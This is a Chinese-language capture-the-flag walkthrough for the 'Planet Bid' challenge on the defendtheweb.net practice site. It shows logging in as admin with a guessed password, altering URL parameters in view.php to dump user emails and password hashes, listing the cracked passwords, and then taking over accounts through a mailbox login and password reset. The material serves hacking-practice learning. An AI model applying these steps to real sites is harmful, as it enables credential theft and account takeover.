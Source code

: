 # Planet Bid / Realistic

经过尝试，我们登陆了 planet bid 的管理员账号。

账号：admin

密码：letmein

我们在里面找到关键信息

| #    | user           | email              |
| ---- | -------------- | ------------------ |
| 31   | Revoked.Mayhem | `Caffe@hotbiz.com` |
| 36   | admin          | `hellomum@yawn.go` |

然后查看售卖信息

| Seller | Buyer | Title               | Amount |
| ------ | ----- | ------------------- | ------ |
| 31     | 11    | Dr Pepper 3ltr RARE | £1.32  |

同时看到 11 号信息

| #    | user    | email               |
| ---- | ------- | ------------------- |
| 11   | nemisis | `jfelliot@mail.com` |

事实上，我们关注一下网址

https://defendtheweb.net/extras/playground/planetbid/planetbid/view.php?members&1=user&2=email

会发现这是一个数据库查询有关的漏洞。我们试着看看密码：

https://defendtheweb.net/extras/playground/planetbid/planetbid/view.php?members&1=user&2=pass

得到了几个人的密码

| #    | user           | pass                             | pass          |
| ---- | -------------- | -------------------------------- | ------------- |
| 11   | nemisis        | 742929dcb631403d7c1c1efad2ca2700 | chicken       |
| 31   | Revoked.Mayhem | 231b79b81be75c6fdaabb59754efc025 | westwoodworld |
| 36   | admin          | 2dd9d512e83adc93479d25115285937a | Scoopszii     |

现在登录 nemisis 的邮箱

账号：jfelliot

密码：chicken

接下来，我们在 safe transfer 中使用找回密码功能

账号：nemisis

邮箱：`jfelliot@mail.com`
